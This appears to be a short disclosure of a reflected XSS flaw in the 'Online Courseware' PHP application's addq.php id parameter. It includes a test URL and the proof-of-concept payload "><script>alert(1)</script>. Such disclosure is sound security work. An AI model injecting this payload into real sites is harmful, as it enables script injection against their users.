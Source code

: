 #### BUG_AUTHOR:LIU WEIYU
## Online Courseware – reflected XSS on (addq.php?id=Grammar) 
### Vendor Homepage:
https://www.sourcecodester.com/php/4818/online-courseware-using-phpmysql.html 
### Version:V1.0
### Tested on: PHP, Apache, MySQL
### Affected Page:
addq.php?id=Grammar 

On this page,id parameter is vulnerable to reflected XSS Attack 
### Proof of vulnerability:
#### Visit this page:
http://localhost/onlinecourseware/pcci/teacher/addq.php?id=Grammar
### Payload：
"><script>alert(1)</script>
### Trigger popup：
<img width="416" alt="image" src="https://github.com/thisissuperann/Vul/assets/148440408/afa9409e-7c54-4d42-8f8b-56f484349695">

